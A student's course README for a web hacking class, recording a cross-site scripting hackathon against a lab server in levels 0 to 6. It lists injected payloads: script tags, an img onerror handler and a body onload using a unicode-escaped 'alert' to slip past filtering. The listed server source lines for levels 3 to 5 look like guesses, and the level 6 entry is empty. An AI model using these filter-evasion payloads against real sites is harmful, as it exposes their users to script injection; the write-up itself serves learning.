 # WAPH-jaindy Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Divyani Jain

**Email**: jaindy@mail.uc.edu

**Short-bio**: Work experience of more than 6 years in IT Industry. Specialize in Analysis, Development, Design, Testing, Debugging and Implementation of Web Applications. 

![Divyani Headshot!](/Images/Divyani_Jain.jpg)

## Repository Information

Respository's URL: [https://github.com/jaindy/waph-jaindy.git](https://github.com/jaindy/waph-jaindy.git)

This is a private repository for divyani Jain to store all code from the course. The organization of this repository is as follows.

## Hackathon 1 - Cross-site Scripting Attacks and Defenses

Task 1. Perform cross site scripting attacks on below Url and display my name in alert.
http://waph-hackathon.eastus.cloudapp.azure.com/xss/level[0-6]/echo.php​

## Level 0: Hacked level0 by injected javascript script tag in input field. 

Injected Code: <script>alert('level 0 hack by Divyani Jain')</script>
![Level 0!](/Images/Level0.png)

Source code: echo $_REQUEST["input"];

## Level 1: hacked level1 by injected javascript script tag in url. 

Injected Code: <script>alert('level 0 hack by Divyani Jain')</script>
![Level 1!](/Images/Level1.png)

Source code: echo $_REQUEST["input"];

## Level 2: hacked the level2 by changing the URL path in action attribute of the Form tag in HTML and send data in POST request.
Injected Code:
![Injected code Level 2!](/Images/Level2.png)
![Level 2!](/Images/Level2.png)

Source code: echo $_REQUEST["input"];


## Level 3: Hacked the level3 by providing alert in onerror event in image tag.
Injected Code: <img src="" onerror="alert('level 3 hack by Divyani Jain')">

![Level 3!](/Images/Level3.png)

Source code of the echo.php web application: echo strip_tags("<script>alert('level 3 hack by Divyani Jain')</script>","<img>");

## Level 4:Hacked the level4 by providing alert in onerror event in image tag.
Injected Code: <img src="" onerror="alert('level 3 hack by Divyani Jain')">
![Level 4!](/Images/Level4.png)

Source code of the echo.php web application: echo strip_tags("<script>alert('level 4 hack by Divyani Jain')</script>","<img>");

## Level 5: Hacked the level5 by providing window alert in onload event in body tag.
Injected Code: <body onload="window['al\u0065rt']('level 5 hack by divyani jain')">

![Level 5!](/Images/Level5.png)

Source code of the echo.php web application: echo strip_tags("<script>alert('level 5 hack by Divyani Jain')</script>","<img>");

## Level 6:
Injected Code:
Source code of the echo.php web application:


